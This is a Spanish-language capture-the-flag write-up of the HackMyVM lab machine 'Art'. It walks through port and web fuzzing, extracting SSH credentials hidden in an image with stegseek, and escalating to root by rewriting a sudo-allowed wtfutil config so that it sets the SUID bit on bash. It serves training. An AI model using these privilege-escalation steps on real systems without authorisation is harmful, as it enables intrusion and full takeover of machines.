



## Información:

| `Autor:` | [sml](https://hackmyvm.eu/profile/?user=sml) |
|-|-|
| `Fecha de creacion:` | 2022-08-04 |
| `Dificultad:` | Easy |


## Reconocimiento y enumeración 
Primero hacemos el reconocimiento de los puertos que contienen la maquina

```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG allPorts.txt 192.168.1.116
```

| Argumento    | Descripción                                                                  |
| ------------ | ---------------------------------------------------------------------------- |
| -p-          | Escanea todos los puertos, en total 65535                                    |
| --open       | Filtrar por los puertos abiertos.                                            |
| -sS          | Escaneo SYN Port.                                                            |
| --min-rate X | Intervalo mínimo de tiempo para el envió de paquetes.                        |
| -n           | No realizar resolución DNS (Domain Name Server).                             |
| -Pn          | No realizar Host Discovery (No determinar si el host esta vivo).             |
| -vvv         | Nivel de verbose (Información mas detallada).                                |
| -oG          | Guardar los resultados en un archivo con facilidad de buscar palabras (grep) |

Vemos que tenemos los siguientes puertos abiertos:

```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2024-07-21 13:31 CST
Initiating ARP Ping Scan at 13:31
Scanning 192.168.1.116 [1 port]
Completed ARP Ping Scan at 13:31, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 13:31
Scanning 192.168.1.116 [65535 ports]
Discovered open port 22/tcp on 192.168.1.116
Discovered open port 80/tcp on 192.168.1.116
Completed SYN Stealth Scan at 13:31, 0.61s elapsed (65535 total ports)
Nmap scan report for 192.168.1.116
Host is up, received arp-response (0.00031s latency).
Scanned at 2024-07-21 13:31:20 CST for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 00:0C:29:93:27:2A (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

Ahora obtendremos el detalle de los servicios que se están ejecutando en los puertos:

```bash
sudo nmap -p22,80 -sCV 192.168.1.116 -oN openServices.txt
```

| Argumento | Descripción                                                                                      |
| --------- | ------------------------------------------------------------------------------------------------ |
| -p        | Definir los puertos a escanear                                                                   |
| -sCV      | Combina el script de detección de versiones y ejecución de scripts predeterminados de nmap (NSE) |
| -oN       | Genera un archivo con los resultados con una salida legible                                      |

Tenemos como resultado los servicios que están expuestos, un nginx y ssh.

```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2024-07-21 13:35 CST
Nmap scan report for 192.168.1.116 (192.168.1.116)
Host is up (0.00013s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 45:42:0f:13:cc:8e:49:dd:ec:f5:bb:0f:58:f4:ef:47 (RSA)
|   256 12:2f:a3:63:c2:73:99:e3:f8:67:57:ab:29:52:aa:06 (ECDSA)
|_  256 f8:79:7a:b1:a8:7e:e9:97:25:c3:40:4a:0c:2f:5e:69 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 00:0C:29:93:27:2A (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.35 seconds
```

Cuando nos dirigimos al navegador y vemos la web expuesta en el puerto 80 vemos una galería de imágenes:




Haremos búsqueda de directorios por fuerza bruta con gobuster e incluiremos búsqueda por extensiones de archivos:

```bash
gobuster dir -u http://192.168.1.116 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,jpg,xml
```

| Argumento | Descripción                                   |
| --------- | --------------------------------------------- |
| -u        | Definir la dirección url                      |
| -w        | Definir la ruta de la wordlist (diccionario)  |
| -x        | Realizar búsqueda por extensiones de archivos |

Encontramos un archivo index.php

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.116
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,jpg,xml,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 170]
Progress: 1323354 / 1323360 (100.00%)
===============================================================
Finished
===============================================================
```

Esto no nos dice mucho, por que utilizaremos ffuf para obtener mas información

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://192.168.1.116/index.php\?FUZZ\=id -fs 170
```

```ruby

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.1.116/index.php?FUZZ=id
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 170
________________________________________________

tag                     [Status: 200, Size: 70, Words: 11, Lines: 5, Duration: 16ms]
:: Progress: [56293/56293] :: Job [1/1] :: 3571 req/sec :: Duration: [0:00:16] :: Errors: 0 ::
```

Vemos el código fuente de la pagina y vemos que menciona algo relacionado al tag



Volvemos a hacer una búsqueda por la palabra tag:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -u http://192.168.1.116/index.php\?tag\=FUZZ -fs 70
```

Vemos que tenemos dos coincidencias:

```ruby

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.1.116/index.php?tag=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 70
________________________________________________

0                       [Status: 200, Size: 170, Words: 15, Lines: 5, Duration: 11ms]
beauty                  [Status: 200, Size: 93, Words: 12, Lines: 5, Duration: 10ms]
beautiful               [Status: 200, Size: 170, Words: 15, Lines: 5, Duration: 11ms]
:: Progress: [107982/107982] :: Job [1/1] :: 3448 req/sec :: Duration: [0:00:30] :: Errors: 0 ::
```

Nos dirigimos a la pagina y hacemos la búsqueda por `http://192.168.1.116/index.php?tag=beauty`



Realizamos una consulta para saber el archivo que contiene el index.php

```bash
curl -s http://192.168.1.116/index.php\?tag\=beauty | cat
```

Vemos que el archivo es `dsa32.jpg`

```text
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ STDIN
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ SEE HMV GALLERY!
   2   │ <br>
   3   │  <br>
   4   │ <!-- Need to solve tag parameter problem. -->
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Procedemos a descargar la imagen y analizarla con StegSeek

```bash
curl -O http://192.168.1.116/dsa32.jpg

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 4066k  100 4066k    0     0   177M      0 --:--:-- --:--:-- --:--:--  180M
```
## Intrusión

Utilizamos la herramienta de stegseek, que nos ayudara a extraer dato ocultos mediante la tecnica de esteganografia

```bash
stegseek dsa32.jpg -wl /usr/share/dict/rockyou.txt
```

Ha encontrado un archivo oculto llamdo `yes.txt`, el resultado nos lo guarda en el archivo `dsa32.jpg.out`

```ruby
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "yes.txt".
[i] Extracting to "dsa32.jpg.out".
```

Procedemos a leer el contenido del archivo

```bash
cat dsa32.jpg.out
```

Al leer el contenido del fichero vemos lo que parece ser un usuario y una contraseña

```text
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: dsa32.jpg.out
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ lion/shel0vesyou
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Recordamos que tenemos habilitado el puerto ssh, por lo que entramos con las credenciales que obtuvimos.

```bash
 ssh lion@192.168.1.16
```

Nos permite entrar como el usuario `lion`

```ruby
The authenticity of host '192.168.1.116 (192.168.1.116)' can't be established.
ED25519 key fingerprint is SHA256:6icD/Bw7zNCkO/tjgVhzyYMGZkZVKkOvOlpNVvcBQo0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.116' (ED25519) to the list of known hosts.
lion@192.168.1.116's password:
Linux art 5.10.0-16-amd64 #1 SMP Debian 5.10.127-2 (2022-07-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Aug  3 11:18:18 2022 from 192.168.1.51
lion@art:~$
```

Leemos el contenido de la flag para el usuario.

```bash
cat user.txt
```

## Escalada de privilegios 

Dentro de la enumeración utilizamos el comando `sudo -l` donde:

| Argumento | Descripción                                                                                                           |
| --------- | --------------------------------------------------------------------------------------------------------------------- |
| sudo      | Programa "super user do" que permite ejecutar comando con permisos de otro usuario, normalmente como el usuario root. |
| -l        | Lista privilegios de usuario o chequea un comando especifico; usar dos veces para formato extenso.                    |

```bash
lion@art:~$ sudo -l
Matching Defaults entries for lion on art:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lion may run the following commands on art:
    (ALL : ALL) NOPASSWD: /bin/wtfutil
```

Vemos que el usuario lion tiene acceso al binario /bin/wtfutil sin necesidad de utilizar la contraseña. Al ejecutar el binario nos muestra lo siguiente:

```text
┌─ ~/.config/wtf/config.yml 1 ─┐┌────────── Clocks A ──────────┐┌────────── Clocks B ──────────┐
│                              ││ Toronto      01:13 EDT   Jul ││ Barcelona    07:13 CEST  Jul │
│wtf:                          ││ Vancouver    22:13 PDT   Jul ││ Dubai        09:13 +04   Jul │
│  colors:                     ││                              ││ Paris        07:13 CEST  Jul │
│    border:                   ││                              ││                              │
│      focusable: darkslateblue││                              ││                              │
│      focused: orange         ││                              ││                              │
│      normal: gray            ││                              ││                              │
│  grid:                       ││                              ││                              │
│    columns: [32, 32, 32, 32, │└──────────────────────────────┘└──────────────────────────────┘
│    rows: [10, 10, 10, 4, 4, 9│┌─────────────────────── Feed Reader 2 ────────────────────────┐
│  refreshInterval: 1          ││ 1. Venezuela's Maduro declared winner in disputed vote       │
│  mods:                       ││ 2. Politics to roar back at Westminster in blame game over fu│
│    clocks_a:                 ││ 3. Mum's school CCTV plea after autistic son attacked        │
│      colors:                 ││ 4. Complex life on Earth may be much older than thought      │
│        rows:                 ││ 5. 'Contender, ready!' - original voice of Gladiators stilled│
│          even: "lightblue"   ││ 6. Inquiry after police appear to join GAA celebrations      │
│          odd: "white"        ││ 7. Woman dies after attack while walking dog                 │
│      enabled: true           ││ 8. Reeves to axe projects to plug budget black hole          │
│      locations:              │└──────────────────────────────────────────────────────────────┘
│        Vancouver: "America/Va│┌─────────── IPInfo ───────────┐┌───────────── ⚡️ ─────────────┐
│        Toronto: "America/Toro││       IP 1305:309e:a:3429:20x││         Source:              │
│      position:               ││ Hostname                     ││unknown                       │
│        top: 0                ││     City Tequisquiapan       ││                              │
│        left: 1               ││   Region Hidalgo             ││                              │
│        height: 1             ││  Country MX                  ││                              │
│        width: 1              ││      Loc 20.3489,-28.2848    ││                              │
│      refreshInterval: 15     ││      Org AS8151 UNINET       ││                              │
│      sort: "alphabetical"    ││                              ││                              │
│      title: "Clocks A"       │└──────────────────────────────┘└──────────────────────────────┘
│      type: "clocks"          │┌────────────────────────── uptime 3 ──────────────────────────┐
│    clocks_b:                 ││exit status 1                                                 │
│      colors:                 ││                                                              │
└──────────────────────────────┘└──────────────────────────────────────────────────────────────┘
```

Por lo que podemos ver en el dashboard wtfutil tiene un archivo de configuración bajo la ruta `~/.config/wtf/config.yml` y este ejecuta el comando `uptime` en la parte inferior del dashboard.

Procedemos a ver el archivo de configuración:

```ruby
wtf:
  colors:
    border:
      focusable: darkslateblue
      focused: orange
      normal: gray
  grid:
    columns: [32, 32, 32, 32, 90]
    rows: [10, 10, 10, 4, 4, 90]
  refreshInterval: 1
  mods:
    clocks_a:
      colors:
        rows:
          even: "lightblue"
          odd: "white"
      enabled: true
      locations:
        Vancouver: "America/Vancouver"
        Toronto: "America/Toronto"
      position:
        top: 0
        left: 1
        height: 1
        width: 1
      refreshInterval: 15
      sort: "alphabetical"
      title: "Clocks A"
      type: "clocks"
    clocks_b:
      colors:
        rows:
          even: "lightblue"
          odd: "white"
      enabled: true
      locations:
        Paris: "Europe/Paris"
        Barcelona: "Europe/Madrid"
        Dubai: "Asia/Dubai"
      position:
        top: 0
        left: 2
        height: 1
        width: 1
      refreshInterval: 15
      sort: "alphabetical"
      title: "Clocks B"
      type: "clocks"
    feedreader:
      enabled: true
      feeds:
      - http://feeds.bbci.co.uk/news/rss.xml
      feedLimit: 10
      position:
        top: 1
        left: 1
        width: 2
        height: 1
      refreshInterval: 14400
    ipinfo:
      colors:
        name: "lightblue"
        value: "white"
      enabled: true
      position:
        top: 2
        left: 1
        height: 1
        width: 1
      refreshInterval: 150
    power:
      enabled: true
      position:
        top: 2
        left: 2
        height: 1
        width: 1
      refreshInterval: 15
      title: "⚡️"
    textfile:
      enabled: true
      filePath: "~/.config/wtf/config.yml"
      format: true
      position:
        top: 0
        left: 0
        height: 4
        width: 1
      refreshInterval: 30
      wrapText: false
    uptime:
      args: [""]
      cmd: "uptime"
      enabled: true
      position:
        top: 3
        left: 1
        height: 1
        width: 2
      refreshInterval: 30
      type: cmdrunner
```

Identificamos que existe la posibilidad de introducir comandos en la linea `cmd: uptime`, por lo que probaremos cambiando los permisos del binario bash con los permisos `4755`. Donde:

| Numero | Permiso | Notación                                   |
| ------ | ------- | ------------------------------------------ |
| 4      | s       | El archivo es SUID.                        |
| 7      | rwx     | Permisos de lectura, escritura, ejecución. |
| 5      | r-x     | Lectura y ejecución.                       |

```ruby
uptime:
      args: ["4755" , "/usr/bin/bash"]
      cmd: "chmod"
      enabled: true
      position:
        top: 3
        left: 1
        height: 1
        width: 2
      refreshInterval: 30
      type: cmdrunner
```

Previamente a la ejecución obtenemos los permisos asociados a `/usr/bin/bash`

```bash
lion@art:~$ ls -l $(which bash)
-rwxr-xr-x 1 root root 1234376 mar 27  2022 /usr/bin/bash
```

ejecutamos de nuevo como usuario root con la modificación aplicada.

```bash
sudo -u root /bin/wtfutil --config=/home/lion/.config/wtf/config.yml
```

Vemos que el comando se ha ejecutado correctamente

```text
┌─ ~/.config/wtf/config.yml 1 ─┐┌────────── Clocks A ──────────┐┌────────── Clocks B ──────────┐
│                              ││ Toronto      01:37 EDT   Jul ││ Barcelona    07:37 CEST  Jul │
│wtf:                          ││ Vancouver    22:37 PDT   Jul ││ Dubai        09:37 +04   Jul │
│  colors:                     ││                              ││ Paris        07:37 CEST  Jul │
│    border:                   ││                              ││                              │
│      focusable: darkslateblue││                              ││                              │
│      focused: orange         ││                              ││                              │
│      normal: gray            ││                              ││                              │
│  grid:                       ││                              ││                              │
│    columns: [32, 32, 32, 32, │└──────────────────────────────┘└──────────────────────────────┘
│    rows: [10, 10, 10, 4, 4, 9│┌─────────────────────── Feed Reader 2 ────────────────────────┐
│  refreshInterval: 1          ││ 1. Venezuela's Maduro declared winner in disputed vote       │
│  mods:                       ││ 2. Chris Mason: Politics roars back in blame game over fundin│
│    clocks_a:                 ││ 3. Mum's school CCTV plea after autistic son attacked        │
│      colors:                 ││ 4. Complex life on Earth may be much older than thought      │
│        rows:                 ││ 5. Inquiry after police appear to join Gaelic football celebr│
│          even: "lightblue"   ││ 6. Woman dies after attack while walking dog                 │
│          odd: "white"        ││ 7. Reeves to axe projects to plug budget black hole          │
│      enabled: true           ││ 8. Kemi Badenoch announces bid to become Tory leader         │
│      locations:              │└──────────────────────────────────────────────────────────────┘
│        Vancouver: "America/Va│┌─────────── IPInfo ───────────┐┌───────────── ⚡️ ─────────────┐
│        Toronto: "America/Toro││       IP 1305:309e:a:3429:20x││         Source:              │
│      position:               ││ Hostname                     ││unknown                       │
│        top: 0                ││     City Tequisquiapan       ││                              │
│        left: 1               ││   Region Hidalgo             ││                              │
│        height: 1             ││  Country MX                  ││                              │
│        width: 1              ││      Loc 20.3489,-28.2848    ││                              │
│      refreshInterval: 15     ││      Org AS8151 UNINET       ││                              │
│      sort: "alphabetical"    ││                              ││                              │
│      title: "Clocks A"       │└──────────────────────────────┘└──────────────────────────────┘
│      type: "clocks"          │┌───────────────── chmod 4755 /usr/bin/bash 3 ─────────────────┐
│    clocks_b:                 ││exit status 1                                                 │
│      colors:                 ││                                                              │
└──────────────────────────────┘└──────────────────────────────────────────────────────────────┘
```

Obtenemos nuevamente los permisos asociados a `/usr/bin/bash` 

```bash
lion@art:~$ ls -l $(which bash)
-rwsr-xr-x 1 root root 1234376 mar 27  2022 /usr/bin/bash
```
## Pwned

Procedemos a escalar privilegios con el comando /usr/bin/bash -P

| Argumento     | Descripción                                              |
| ------------- | -------------------------------------------------------- |
| /usr/bin/bash | Ruta del binario de bash                                 |
| -p            | Generar una nueva shell con privilegios de administrador |

```bash
lion@art:~$ /usr/bin/bash -p
bash-5.1# id
uid=1000(lion) gid=1000(lion) euid=0(root) grupos=1000(lion),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
bash-5.1# whoami
root
```

Buscamos la bandera de la cuenta root con find

```bash
$ find / -name "root.txt" 2>/dev/null
/var/opt/root.txt
```
